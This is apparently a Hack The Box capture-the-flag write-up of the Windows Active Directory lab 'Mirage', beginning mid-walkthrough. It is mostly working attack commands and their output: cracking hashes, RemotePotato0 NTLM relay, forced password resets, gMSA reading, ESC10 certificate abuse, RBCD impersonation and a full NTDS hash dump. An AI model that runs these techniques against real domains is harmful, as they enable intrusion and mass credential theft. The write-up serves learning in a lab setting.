f85e896702cf6e3f7fb5a888b7ac083e90d3ca4b9977aa366db4f528120969d5205b682a5a5a1ac90a868c05efffd7cd87427024c578d3028ae52faec66f70d409198fe4f72f9953d863ce9140d4f655791d1a14da599244a51e910ab6f5a9ca8993e88b5778b43866c9be35116a45c689f47504895be6b2ca87c0f2ada1b96b1a4fa360bbca46811578fff890081e630e23f66bda37a3849677676ea76d629e2bbc131d88a0885d1090c3b60790d4ba5e9b2bd2e69254240f1c489e5f8f2c19794c9d2e2b698ee800c3c6218ac844d3c8a9f5d13942f34f76f110191800660a6f0de7b1b79ae846e3f8b5a53576d7457021e86864dc8049f3239fdfc73cb3c17fa194e7f2ea0013ed07a3187e2920bfa3904235691e4e6abe75f6658887a323c936ab5257534ecec6db5cc9d72207fe0df8201d:3edc#EDC3
```

The hash cracked!

```python
❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb -u 'nathan.aadam' -p '3edc#EDC3' -k
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] mirage.htb\nathan.aadam:3edc#EDC3
```

This user is now compromised!

## Domain Enumeration

Ill start to enumerate the domain more at this point
### Shares
```python
❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb -u 'nathan.aadam' -p '3edc#EDC3' -k --shares
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] mirage.htb\nathan.aadam:3edc#EDC3 
SMB         dc01.mirage.htb 445    dc01             [*] Enumerated shares
SMB         dc01.mirage.htb 445    dc01             Share           Permissions     Remark
SMB         dc01.mirage.htb 445    dc01             -----           -----------     ------
SMB         dc01.mirage.htb 445    dc01             ADMIN$                          Remote Admin
SMB         dc01.mirage.htb 445    dc01             C$                              Default share
SMB         dc01.mirage.htb 445    dc01             IPC$            READ            Remote IPC
SMB         dc01.mirage.htb 445    dc01             NETLOGON        READ            Logon server share 
SMB         dc01.mirage.htb 445    dc01             SYSVOL          READ            Logon server share
```

Just default shares

### Users
```python
❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb -u 'nathan.aadam' -p '3edc#EDC3' -k --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC01$
Dev_Account_A
Dev_Account_B
david.jjackson
javier.mmarshall
mark.bbond
nathan.aadam
Mirage-Service$
svc_mirage
```

Ill use `--rid-brute` to get users, this also pulls machine accounts so in my personal opinion it works better than `--users` or `--users-export`

```python
❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb -u 'nathan.aadam' -p '3edc#EDC3' -k --users
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] mirage.htb\nathan.aadam:3edc#EDC3 
SMB         dc01.mirage.htb 445    dc01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         dc01.mirage.htb 445    dc01             Administrator                 2025-06-23 21:18:18 0       Built-in account for administering the computer/domain 
SMB         dc01.mirage.htb 445    dc01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         dc01.mirage.htb 445    dc01             krbtgt                        2025-05-01 07:42:23 0       Key Distribution Center Service Account 
SMB         dc01.mirage.htb 445    dc01             Dev_Account_A                 2025-05-27 14:05:12 0        
SMB         dc01.mirage.htb 445    dc01             Dev_Account_B                 2025-05-02 08:28:11 0        
SMB         dc01.mirage.htb 445    dc01             david.jjackson                2025-05-02 08:29:50 0        
SMB         dc01.mirage.htb 445    dc01             javier.mmarshall              2025-05-25 18:44:43 0       Contoso Contractors 
SMB         dc01.mirage.htb 445    dc01             mark.bbond                    2025-06-23 21:18:18 0        
SMB         dc01.mirage.htb 445    dc01             nathan.aadam                  2025-06-23 21:18:18 0        
SMB         dc01.mirage.htb 445    dc01             svc_mirage                    2025-05-22 20:37:45 0       Old service account migrated by contractors 
SMB         dc01.mirage.htb 445    dc01             [*] Enumerated 10 local users: MIRAGE
```

I also however think it is always worth running `--users` since it also gets user account descriptions, which can sometimes store passwords or just something of use

### Password policy

Password reuse is common, so before spraying the same account with loads of passwords ensure the policy allows for it

```python
❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb -u 'nathan.aadam' -p '3edc#EDC3' -k --pass-pol
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] mirage.htb\nathan.aadam:3edc#EDC3 
SMB         dc01.mirage.htb 445    dc01             [+] Dumping password info for domain: MIRAGE
SMB         dc01.mirage.htb 445    dc01             Minimum password length: 7
SMB         dc01.mirage.htb 445    dc01             Password history length: 24
SMB         dc01.mirage.htb 445    dc01             Maximum password age: 41 days 23 hours 53 minutes 
SMB         dc01.mirage.htb 445    dc01             
SMB         dc01.mirage.htb 445    dc01             Password Complexity Flags: 001001
SMB         dc01.mirage.htb 445    dc01                 Domain Refuse Password Change: 0
SMB         dc01.mirage.htb 445    dc01                 Domain Password Store Cleartext: 0
SMB         dc01.mirage.htb 445    dc01                 Domain Password Lockout Admins: 1
SMB         dc01.mirage.htb 445    dc01                 Domain Password No Clear Change: 0
SMB         dc01.mirage.htb 445    dc01                 Domain Password No Anon Change: 0
SMB         dc01.mirage.htb 445    dc01                 Domain Password Complex: 1
SMB         dc01.mirage.htb 445    dc01             
SMB         dc01.mirage.htb 445    dc01             Minimum password age: 1 day 4 minutes 
SMB         dc01.mirage.htb 445    dc01             Reset Account Lockout Counter: 1 minute 
SMB         dc01.mirage.htb 445    dc01             Locked Account Duration: 1 minute 
SMB         dc01.mirage.htb 445    dc01             Account Lockout Threshold: 10
SMB         dc01.mirage.htb 445    dc01             Forced Log off Time: Not Set
```

The lockout threshold is set to 10, which means after 10 failed auth attempts on one account will cause a lockout

Both passwords found for both domain users dont work for any other domain user

### Bloodhound enumeration



The user `nathan.aadam` is part of remote management users group, and also two other interesting groups

## NATS server config

```python
evil-winrm-py PS C:\Program Files\Nats-Server> type nats-server.conf
listen: '0.0.0.0:4222'

jetstream: {
  store_dir: 'C:\Program Files\Nats-Server\tmp'
}

accounts: {
  '$SYS': {
    users: [
      { user: 'sysadmin', password: 'bb5M0k5XWIGD' } 
    ]
  },
  
  'dev': {
    jetstream: true,
    users: [
      { user: 'Dev_Account_A', password: 'hx5h7F5554fP@1337!' }, 
      { user: 'Dev_Account_B', password: 'tvPFGAzdsJfHzbRJ' }
    ]
  }
}
evil-winrm-py PS C:\Program Files\Nats-Server>
```

Found some passwords

```python
bb5M0k5XWIGD
tvPFGAzdsJfHzbRJ
```

The other one is a password for a previously compromised account `dev_account_a`

Neither of these passwords work on the domain

These password dont look useful at the moment

## Sharphound enumeration



After getting remote access, i always like running sharphound since it tends to be more accurate and show more info

In this case theres another user with a session on the domain controller

To exploit this ill try remote potato

## Remote Potato leads to user compromise

https://github.com/antonioCoco/RemotePotato0

Ill install the newest release off github

```python
evil-winrm-py PS C:\Temp> upload RemotePotato0.exe .
Uploading /home/kali/htb/mirage/RemotePotato0.exe: 192kB [00:00, 534kB/s]                                    
[+] File uploaded successfully as: C:\Temp\RemotePotato0.exe
evil-winrm-py PS C:\Temp>
```

Then ill upload it to the target

```python
❯❯❯ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.129.232.163:9001
```

Ill then start socat on my machine using the target IP and a random port

```python
evil-winrm-py PS C:\Temp> .\RemotePotato0.exe -m 2 -s 1 -x 10.10.14.61 -p 9001
```

Ill then run this on the target using the remote potato binary and set the port i chose and my IP address

```python
evil-winrm-py PS C:\Temp> .\RemotePotato0.exe -m 2 -s 1 -x 10.10.14.61 -p 9001
[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on (null) to your victim machine on port 9001
[*] Example Network redirector: 
	sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:{{ThisMachineIp}}:9001
[*] Starting the RPC server to capture the credentials hash from the user authentication!!
[*] RPC relay server listening on port 9997 ...
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] Starting RogueOxidResolver RPC Server listening on port 9001 ... 
[*] IStoragetrigger written: 104 bytes
[*] ServerAlive2 RPC Call
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to RPC Server 127.0.0.1 on port 9001
[+] User hash stolen!

NTLMv2 Client	: DC01
NTLMv2 Username	: MIRAGE\mark.bbond
NTLMv2 Hash	: mark.bbond::MIRAGE:e5e9025a2dc59132:51781a6c2c43dfd18c5e02823139aa87:0101000000000000c87cf4b3a65add0101240c15d04d81cc0000000002000c004d0049005200410047004500010008004400430030003100040014006d00690072006100670065002e0068007400620003001e0064006300300031002e006d00690072006100670065002e00680074006200050014006d00690072006100670065002e0068007400620007000800c87cf4b3a65add010600040006000000080030003000000000000000010000000020000061ff03ee6bcccb4f55a747e7d85db6de047a3e0276997935f88b88ce38a4498f0a00100000000000000000000000000000000000090000000000000000000000

evil-winrm-py PS C:\Temp>
```

Then a few seconds later i get a hash for the user `mark.bbond`

```python
hashcat '<hash>' /usr/share/wordlists/rockyou.txt

MARK.BBOND::MIRAGE:e5e9025a2dc59132:51781a6c2c43dfd18c5e02823139aa87:0101000000000000c87cf4b3a65add0101240c15d04d81cc0000000002000c004d0049005200410047004500010008004400430030003100040014006d00690072006100670065002e0068007400620003001e0064006300300031002e006d00690072006100670065002e00680074006200050014006d00690072006100670065002e0068007400620007000800c87cf4b3a65add010600040006000000080030003000000000000000010000000020000061ff03ee6bcccb4f55a747e7d85db6de047a3e0276997935f88b88ce38a4498f0a00100000000000000000000000000000000000090000000000000000000000:1day@atime
```

The hash cracked

```python
❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb -u mark.bbond -p '1day@atime' -k
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] mirage.htb\mark.bbond:1day@atime
```

This user is now compromised

## Enumeration of `mark.bbond`



This user has the ability to change the password of `javier.mmarshall`

## Compromising `javier.mmarshall`

```python
❯❯❯ bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' -k set password 'javier.mmarshall' 'Password123!'
Clock skew detected. Adjusting local time by 7:00:00.183961. Retrying operation.
[+] Password changed successfully!
```

This changed the users password

```python
❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb -u javier.mmarshall -p 'Password123!' -k
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [-] mirage.htb\javier.mmarshall:Password123! KDC_ERR_CLIENT_REVOKED
```

So it looks as if it worked, but there is something stopping me from authenticating

After checking `get writable` in bloodyAD as `mark.bbond` i see the account is disabled

```python
❯❯❯ bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' -k get writable --detail

distinguishedName: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
logonHours: WRITE
userAccountControl: WRITE
```

But however i do have access to modify his UAC, so i should be able to re-enable the account

```python
❯❯❯ bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' -k remove uac 'javier.mmarshall' -f ACCOUNTDISABLE
Clock skew detected. Adjusting local time by 7:00:00.454367. Retrying operation.
[+] ['ACCOUNTDISABLE'] property flags removed from javier.mmarshall's userAccountControl
```

This has re enable the account

```python
❯❯❯ bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' -k set object 'javier.mmarshall' logonhours -v '////////////////////////////' --b64
[!] Attribute encoding not supported for logonHours with bytes attribute type, using raw mode
Clock skew detected. Adjusting local time by 7:00:00.332154. Retrying operation.
[+] javier.mmarshall's logonHours has been updated
```

This also sets his account to full logon hours

```python
❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb -u 'javier.mmarshall' -p 'Password123!' -k --generate-tgt javier
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] mirage.htb\javier.mmarshall:Password123! 
SMB         dc01.mirage.htb 445    dc01             [+] TGT saved to: javier.ccache
SMB         dc01.mirage.htb 445    dc01             [+] Run the following command to use the TGT: export KRB5CCNAME=javier.ccache
```

Then i can auth and get a TGT becuase i think there is a cleanup script thats resetting the account to change it back

```python
❯❯❯ export KRB5CCNAME=javier.ccache

❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb --use-kcache          
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] MIRAGE.HTB\javier.mmarshall from ccache
```

Now i can auth using this TGT

## Compromising `mirage-service$`



I have the ability to the gMSA password of this account

```python
❯❯❯ faketime -f +7h nxc ldap dc01.mirage.htb --use-kcache --gmsa
LDAP        dc01.mirage.htb 389    DC01             [*] None (name:DC01) (domain:MIRAGE.HTB) (signing:None) (channel binding:Never) (NTLM:False)
LDAP        dc01.mirage.htb 389    DC01             [+] MIRAGE.HTB\javier.mmarshall from ccache 
LDAP        dc01.mirage.htb 389    DC01             [*] Getting GMSA Passwords
LDAP        dc01.mirage.htb 389    DC01             Account: Mirage-Service$      NTLM: 5f62e853f3876d511ff8628cb59e757c     PrincipalsAllowedToReadPassword: javier.mmarshall
```

I can read this value using nxc

```python
❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb -u 'mirage-service$' -H '5f62e853f3876d511ff8628cb59e757c' -k
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] mirage.htb\mirage-service$:5f62e853f3876d511ff8628cb59e757c
```

This user is now compromised

## Enumeration as `mirage-service$`



This is interesting, especially since the user `mark.bbond` is already compromised

```python
❯❯❯ bloodyAD --host dc01.mirage.htb -d mirage.htb -k get writable --detail

distinguishedName: CN=mark.bbond,OU=Users,OU=Support,OU=IT_Staff,DC=mirage,DC=htb
manager: WRITE
mail: WRITE
msDS-HABSeniorityIndex: WRITE
msDS-PhoneticDisplayName: WRITE
msDS-PhoneticCompanyName: WRITE
msDS-PhoneticDepartment: WRITE
msDS-PhoneticLastName: WRITE
msDS-PhoneticFirstName: WRITE
msDS-SourceObjectDN: WRITE
msDS-AllowedToDelegateTo: WRITE
altSecurityIdentities: WRITE
servicePrincipalName: WRITE
userPrincipalName: WRITE
legacyExchangeDN: WRITE
otherMailbox: WRITE
showInAddressBook: WRITE
systemFlags: WRITE
division: WRITE
objectGUID: WRITE
name: WRITE
displayNamePrintable: WRITE
proxyAddresses: WRITE
company: WRITE
department: WRITE
co: WRITE
dn: WRITE
initials: WRITE
givenName: WRITE
description: WRITE
title: WRITE
ou: WRITE
o: WRITE
sn: WRITE
objectCategory: WRITE
cn: WRITE
objectClass: WRITE
```

It looks like i can modify the UPN of `mark.bbond` which could potentially be interesting

Bloodhound highlights ESC14, but scanning for vulnerable templates fails, indicating this probably isnt likely, but there may still be a path that involved ADCS

## ADCS (ESC10)

After some research i find ESC10 involved having write access over a user UPN

https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc10-weak-certificate-mapping-for-schannel-authentication

```python
evil-winrm-py PS C:\Users\nathan.aadam\Documents> $Path = "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL"


evil-winrm-py PS C:\Users\nathan.aadam\Documents> Get-ItemProperty -Path $Path


EventLogging              : 1
CertificateMappingMethods : 4
PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Secu
                            rityProviders\SCHANNEL
PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Secu
                            rityProviders
PSChildName               : SCHANNEL
PSDrive                   : HKLM
PSProvider                : Microsoft.PowerShell.Core\Registry


evil-winrm-py PS C:\Users\nathan.aadam\Documents>
```

As seen here the value `CertificateMappingMethods` is set to 4, this means only UPN mapping is enabled

So this is a good sign as this is a requirement for ESC10



So looking at the wiki, all three conditions are met

```python
❯❯❯ faketime -f +7h certipy-ad account -u 'mirage-service$mirage.htb' -k -no-pass -dc-ip '10.129.232.163' -user 'mark.bbond' read -target dc01.mirage.htb
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'mark.bbond':
    cn                                  : mark.bbond
    distinguishedName                   : CN=mark.bbond,OU=Users,OU=Support,OU=IT_Staff,DC=mirage,DC=htb
    name                                : mark.bbond
    objectSid                           : S-1-5-21-2127163471-3824721834-2568365109-1109
    sAMAccountName                      : mark.bbond
    userPrincipalName                   : mark.bbond@mirage.htb
    userAccountControl                  : 66048
    whenCreated                         : 2025-05-02T08:36:23+00:00
    whenChanged                         : 2026-10-12T23:01:57+00:**00**
```

Ill first just show the currennt UPN value of the `mark.bbond` account

```python
❯❯❯ faketime -f +7h certipy-ad account -u 'mirage-service$mirage.htb' -k -no-pass -dc-ip '10.129.232.163' -upn 'dc01$@mirage.htb' -user 'mark.bbond' update -target dc01.mirage.htb
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Updating user 'mark.bbond':
    userPrincipalName                   : dc01$@mirage.htb
[*] Successfully updated 'mark.bbond'
```

Then ill modify the accounts UPN

```python
❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb -u 'mark.bbond' -p '1day@atime' -k --generate-tgt mark
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] mirage.htb\mark.bbond:1day@atime 
SMB         dc01.mirage.htb 445    dc01             [+] TGT saved to: mark.ccache
SMB         dc01.mirage.htb 445    dc01             [+] Run the following command to use the TGT: export KRB5CCNAME=mark.ccache

❯❯❯ export KRB5CCNAME=mark.ccache
```

I then need to request a TGT, its important this takes place after the UPN is mofified

```python
❯❯❯ faketime -f +7h certipy-ad req -k -no-pass -dc-ip '10.129.232.163' -target 'dc01.mirage.htb' -ca 'mirage-DC01-CA' -template 'User'
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 11
[*] Successfully requested certificate
[*] Got certificate with UPN 'dc01$@mirage.htb'
[*] Certificate object SID is 'S-1-5-21-2127163471-3824721834-2568365109-1109'
[*] Saving certificate and private key to 'dc01.pfx'
[*] Wrote certificate and private key to 'dc01.pfx'
```

Ill then use a TGT of `mark.bbond` to request a certificate for the DC01$ machine account

```python
❯❯❯ faketime -f +7h certipy-ad account -u 'mirage-service$@mirage.htb' -k -no-pass -dc-ip '10.129.232.163' -upn 'mark.bbond@mirage.htb' -user 'mark.bbond' update -target dc01.mirage.htb
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Updating user 'mark.bbond':
    userPrincipalName                   : mark.bbond@mirage.htb
[*] Successfully updated 'mark.bbond'
```

Then ill reset the UPN back to the original using the TGT for `mirage-service$`

```python
❯❯❯ faketime -f +7h certipy-ad auth -pfx 'dc01.pfx' -dc-ip '10.129.232.163' -ldap-shell
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'dc01$@mirage.htb'
[*]     Security Extension SID: 'S-1-5-21-2127163471-3824721834-2568365109-1109'
[*] Connecting to 'ldaps://10.129.232.163:636'
[*] Authenticated to '10.129.232.163' as: 'u:MIRAGE\\DC01$'
Type help for list of commands

# whoami
u:MIRAGE\DC01$

# 
```

Then i can drop into an LDAP shell as the `dc01$` machine account

## Domain Admin

Now i have an LDAP shell as the `dc01$` machine account, i can use the built in shell options to configure RBCD for the `mirage-service$` account

```python
set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
```

This is the details taken from the help menu

```python
# set_rbcd DC01$ mirage-service$
Found Target DN: CN=DC01,OU=Domain Controllers,DC=mirage,DC=htb
Target SID: S-1-5-21-2127163471-3824721834-2568365109-1000

Found Grantee DN: CN=Mirage-Service,CN=Managed Service Accounts,DC=mirage,DC=htb
Grantee SID: S-1-5-21-2127163471-3824721834-2568365109-1112
Delegation rights modified successfully!
mirage-service$ can now impersonate users on DC01$ via S4U2Proxy

# 
```

Now RBCD should be setup

```python
❯❯❯ faketime -f +7h getST.py -spn 'cifs/DC01.mirage.htb' -impersonate "DC01$" -dc-ip 10.129.232.163 "mirage.htb"/"mirage-service$" -k -no-pass
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating DC01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC01$@cifs_DC01.mirage.htb@MIRAGE.HTB.ccache
```

I can get a TGT for the `DC01$` machine account using the `mirage-service$` account, since this was the one i configured for RBCD

```python
❯❯❯ export KRB5CCNAME=DC01\$@cifs_DC01.mirage.htb@MIRAGE.HTB.ccache

❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb --use-kcache --ntds
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] mirage.htb\DC01$ from ccache 
SMB         dc01.mirage.htb 445    dc01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         dc01.mirage.htb 445    dc01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc01.mirage.htb 445    dc01             mirage.htb\Administrator:500:aad3b435b51404eeaad3b435b51404ee:7be6d4f3c2b9c0e3560f5a29eeb1afb3:::
SMB         dc01.mirage.htb 445    dc01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc01.mirage.htb 445    dc01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1adcc3d4a7f007ca8ab8a3a671a66127:::
SMB         dc01.mirage.htb 445    dc01             mirage.htb\Dev_Account_A:1104:aad3b435b51404eeaad3b435b51404ee:3db621dd880ebe4d22351480176dba13:::
SMB         dc01.mirage.htb 445    dc01             mirage.htb\Dev_Account_B:1105:aad3b435b51404eeaad3b435b51404ee:fd1a971892bfd046fc5dd9fb8a5db0b3:::
SMB         dc01.mirage.htb 445    dc01             mirage.htb\david.jjackson:1107:aad3b435b51404eeaad3b435b51404ee:ce781520ff23cdfe2a6f7d274c6447f8:::
SMB         dc01.mirage.htb 445    dc01             mirage.htb\javier.mmarshall:1108:aad3b435b51404eeaad3b435b51404ee:694fba7016ea1abd4f36d188b3983d84:::
SMB         dc01.mirage.htb 445    dc01             mirage.htb\mark.bbond:1109:aad3b435b51404eeaad3b435b51404ee:8fe1f7f9e9148b3bdeb368f9ff7645eb:::
SMB         dc01.mirage.htb 445    dc01             mirage.htb\nathan.aadam:1110:aad3b435b51404eeaad3b435b51404ee:1cdd3c6d19586fd3a8120b89571a04eb:::
SMB         dc01.mirage.htb 445    dc01             mirage.htb\svc_mirage:2604:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
SMB         dc01.mirage.htb 445    dc01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:b5b26ce83b5ad77439042fbf9246c86c:::
SMB         dc01.mirage.htb 445    dc01             Mirage-Service$:1112:aad3b435b51404eeaad3b435b51404ee:5f62e853f3876d511ff8628cb59e757c:::
SMB         dc01.mirage.htb 445    dc01             [+] Dumped 12 NTDS hashes to /home/kali/.nxc/logs/ntds/dc01_dc01.mirage.htb_2026-10-13_023340.ntds of which 10 were added to the database
SMB         dc01.mirage.htb 445    dc01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         dc01.mirage.htb 445    dc01             [*] grep -iv disabled /home/kali/.nxc/logs/ntds/dc01_dc01.mirage.htb_2026-10-13_023340.ntds | cut -d ':' -f1
```

I can then just dump the NTDS using the TGT of `DC01$`

This can also be done with secretsdump

```python
❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb -u Administrator -H '7be6d4f3c2b9c0e3560f5a29eeb1afb3' -k --generate-tgt DA
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] mirage.htb\Administrator:7be6d4f3c2b9c0e3560f5a29eeb1afb3 (Pwn3d!)
SMB         dc01.mirage.htb 445    dc01             [+] TGT saved to: DA.ccache
